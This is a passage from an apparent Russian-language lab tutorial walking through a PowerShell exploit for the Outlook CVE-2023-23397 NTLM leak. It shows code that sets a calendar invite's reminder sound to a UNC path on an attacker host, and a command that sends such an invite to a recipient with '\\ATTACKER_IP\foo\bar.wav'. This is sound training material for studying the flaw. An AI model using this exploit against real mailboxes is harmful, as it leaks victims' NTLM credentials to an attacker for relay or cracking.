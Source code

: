 Оба варианта создают встречу одинаково, поэтому мы рассмотрим только Save-CalendarNTLMLeak . 

Сначала мы создадим объект «Outlook.Application» и создадим встречу.
```commandline
$Outlook = New-Object -comObject Outlook.Application
$newcal = $outlook.CreateItem('olAppointmentItem')
```

Будут установлены обычные параметры встречи. Они включают получателей, тему встречи, место, текст и даты начала и окончания. Эксплойт устанавливает начальный день на текущее время, чтобы напоминание сработало немедленно:
```commandline
$newcal.Recipients.add($recipient)
$newcal.MeetingStatus = [Microsoft.Office.Interop.Outlook.OlMeetingStatus]::olMeeting
$newcal.Subject = $meetingsubject
$newcal.Location = "Virtual"
$newcal.Body = $meetingbody
$newcal.Start = get-date
$newcal.End = (get-date).AddHours(2)
```

Следующие дополнительные параметры будут настроены для направления звукового файла напоминания на сервер злоумышленника, как объяснялось ранее:
```commandline
$newcal.ReminderSoundFile = $remotefilepath
$newcal.ReminderOverrideDefault = 1
$newcal.ReminderSet = 1
$newcal.ReminderPlaysound = 1
```

Наконец, запись на прием будет отправлена получателю по электронной почте:

`$newcal.send()`
Использование эксплойта

Вы можете импортировать функции эксплойта с помощью командлета Import-Module. После этого обе функции будут доступны в вашем текущем Powershell. Чтобы отправить электронное письмо с вредоносной встречей, вы можете просто выполнить следующую команду:

Powershell
```commandline
PS C:\> cd C:\Users\Administrator\Desktop\
PS C:\Users\Administrator\Desktop\> Import-Module .\CVE-2023-23397.ps1
PS C:\Users\Administrator\Desktop\> Send-CalendarNTLMLeak -recipient "test@thm.loc" -remotefilepath "\\ATTACKER_IP\foo\bar.wav" -meetingsubject "THM Meeting" -meetingbody "This is just a regular meeting invitation :)"

```
Обязательно замените ATTACKER_IP на IP-адрес вашего AttackBox в `-remotefilepath` параметре. Обратите внимание, что в 
этом случае вы используете эксплойт, чтобы отправить себе электронное письмо, так как у нас есть одна учетная запись на машине, но обычно вы нацеливаетесь на другие адреса электронной почты.

Поскольку эксплойт использует текущий экземпляр Outlook для отправки электронной почты, вы, скорее всего, получите несколько предупреждений с просьбой предоставить разрешение скрипту на отправку электронных писем от вашего имени. Обязательно нажмите «Разрешить» столько раз, сколько необходимо. Отметка флажка «Разрешить доступ на 10 минут» также должна помочь ускорить этот процесс:
